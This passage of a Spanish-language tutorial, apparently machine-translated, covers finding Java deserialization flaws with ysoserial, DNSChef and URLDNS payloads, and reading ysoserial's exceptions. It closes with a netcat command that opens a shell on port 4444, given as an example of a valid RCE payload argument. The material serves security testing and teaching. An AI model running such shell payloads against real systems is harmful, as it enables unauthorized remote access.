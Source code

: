 > si tiene Burp Suite Pro, puede usar el cliente de colaborador para generar y capturar solicitudes de DNS

DNSChief se utilizará como un proxy DNS simple. Puedes clonarlo desde su repositorio de GitHub:

```
https://github.com/iphelix/dnschef
```

Añadir a /etc/resolv.conf

```
nameserver 127.0.0.1
```

Inicie DNSChief y verifique si funciona correctamente intentando hacer ping a un dominio inexistente:

```
ping oahsdhuasdo.com
```

* Ahora podemos ejecutar la carga útil (p.bin) y ver si se realiza la búsqueda
* Las cargas útiles de URLDNS se pueden usar para detectar problemas de deserialización antes de que pueda intentar atacarlos con cargas útiles de RCE completo
* Las cargas útiles ysoseriales que dan como resultado la ejecución de código se basan en objetos anidados similares, sin embargo, pueden ser mucho más complicadas e involucrar varios objetos y sus propiedades

### Solución de problemas de Ysoserial <a href="#troubleshooting-ysoserial" id="troubleshooting-ysoserial"></a>

Para poder confirmar si la aplicación es segura o no, debe estar familiarizado con los tipos de excepción que se pueden lanzar durante el proceso de ataque.

* Ysoserial es una herramienta de explotación ciega, por lo que, además de la resolución de DNS, conocer los tipos de excepción podría ayudar a evaluar una posible superficie de ataque
* Al atacar, u debe ser consciente de dónde proviene la excepción. El propio Ysoserial imprime trazas de pila detalladas cuando se usa incorrectamente

Al leer el seguimiento de la pila, si encuentra una **ClassNotFoundException**, es probable que la aplicación de destino no utilice la biblioteca de gadgets utilizada por la carga usoserial. A continuación, puede intentar usar una carga útil diferente que tenga como destino otra biblioteca

* Si ha encontrado **java.io.IOException** con el mensaje _No se puede ejecutar el programa_, es una buena señal porque la carga útil ha funcionado. Sin embargo, la aplicación a la que quería llamar no está disponible por alguna razón (ejemplo: no existe)

Al decirle a ysoserial que cree una carga útil relacionada con RCE, debe tener en cuenta sus limitaciones:

* No se admiten redirecciones de salida ni canalizaciones
*   Los parámetros del comando no pueden contener espacios; Por lo tanto, mientras:

    ```
    nc -lp 4444 -e /bin;sh# is ok
    python -c import socket;... # will not work because the parameter (import socket) to Python contains a space
    ```
